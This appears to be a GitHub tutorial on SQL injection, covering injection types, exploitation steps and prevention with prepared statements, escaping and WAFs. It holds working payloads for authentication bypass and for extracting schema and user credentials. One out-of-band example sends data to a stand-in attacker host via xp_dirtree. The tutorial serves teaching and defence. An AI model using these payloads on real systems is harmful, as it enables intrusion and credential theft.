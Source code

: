 # SQL Injection (SQLi)     
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries executed by an application’s database. This can lead to:  
> Unauthorized access to sensitive data  
> Bypassing authentication mechanisms  
> Data modification or deletion  
> Gaining control over the database server  

### **1 How SQL Injection Works**  
When an application fails to properly sanitize user input, attackers can insert malicious SQL code into queries.  

Example: Consider a vulnerable login system using the following SQL query:  
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```
If an attacker enters `' OR 1=1 --` as the username, the query becomes:  
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
Since `1=1` is always true, the query bypasses authentication, granting access without a valid password.

---

## **2. Types of SQL Injection**  

### **1) Error-Based SQL Injection**  
Relies on extracting information from database error messages.  

**Example (MySQL)**:
```sql
' ORDER BY 1 --   # Checking number of columns
' UNION SELECT NULL, NULL, @@version --  # Extract database version
```
---
### **2) Boolean-Based (Blind) SQL Injection**  
The attacker infers information based on application behavior.  

**Example (Testing for User Existence):**  
```sql
' AND 1=1 --  # Valid query (application responds normally)
' AND 1=2 --  # Invalid query (application behaves differently)
```
If the second query causes a different response, the site is vulnerable.

---
### **3) Time-Based Blind SQL Injection**  
Used when no visible output is returned. The attacker delays the response to confirm injection.  

**Example (MySQL)**:
```sql
' OR IF(1=1, SLEEP(5), 0) --  # Causes a 5-second delay if the query is executed
```
---
### **4) Union-Based SQL Injection**  
Uses the `UNION` SQL operator to extract data.  

**Example (Extracting Database Name):**  
```sql
' UNION SELECT database(), NULL, NULL --
```
---
### **5) Out-of-Band SQL Injection**  
Extracts data via external interactions (DNS, HTTP requests).  

**Example (SQL Server – Sending Data to an Attacker's Server):**  
```sql
'; EXEC xp_dirtree('//attacker.com/payload') --
```
---

## **3. Exploiting SQL Injection**  
### **1) Finding the Number of Columns**  
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --   # Increase the number until an error occurs
```
---
### **2) Extracting Database Version**  
```sql
' UNION SELECT @@version, NULL, NULL --
```
---
### **3) Extracting Table Names**  
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
```
---
### **4) Extracting Column Names from a Table**  
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
---
### **5) Extracting User Credentials**  
```sql
' UNION SELECT username, password FROM users --
```
---

## **4. Bypassing Authentication with SQL Injection**
### Classic Bypass Payloads  
- `admin' --`  
- `' OR '1'='1' --`  
- `" OR 1=1 #`  
- `admin' OR 1=1 --`  

---

## **5. Preventing SQL Injection**  

### **1) Use Prepared Statements (Parameterized Queries)**  
Ensures user input is treated as data, not SQL code.  

**Example (PHP – MySQLi Prepared Statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

**Example (Python – SQLite3 Prepared Statement):**
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (user, password))
```

---
### **2) Input Validation & Whitelisting**  
- Allow only expected input formats (e.g., email, numeric values).  
- Reject special characters like `'`, `--`, `;`, `"`  

---
### **3) Escape Special Characters**  
If prepared statements are not available, use escaping.  

**Example (PHP – MySQLi Escape):**
```php
$username = mysqli_real_escape_string($conn, $_GET['username']);
```
---
### **4) Use Least Privilege Principle**  
- Grant database users minimal privileges.  
- Avoid using `root` or `admin` accounts in web applications.  
- Restrict `DROP`, `DELETE`, and `UPDATE` permissions where unnecessary.  

---
### **5) Implement Web Application Firewalls (WAFs)**  
Use security tools to block malicious requests.  
- **ModSecurity**  
- **Cloudflare WAF**  
- **Imperva WAF**  

---

## **6. SQL Injection Testing Tools**
### **1) SQLMap (Automated Testing)**
```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```
---
### **2) Burp Suite (Manual Testing)**
- Intercept and modify requests.  
- Test SQLi payloads in form fields.  

---
### SQLi Tools & installation 
- **Havij** – GUI-based SQL Injection tool (https://github.com/MyIBGit/Havij-SQL-Injection-tool).  
- **NoSQLMap** – For NoSQL injection attacks (https://github.com/codingo/NoSQLMap.git).  
- **BBQSQL** – SQLi testing tool for blind SQL injections (https://github.com/CiscoCXSecurity/bbqsql).  

---



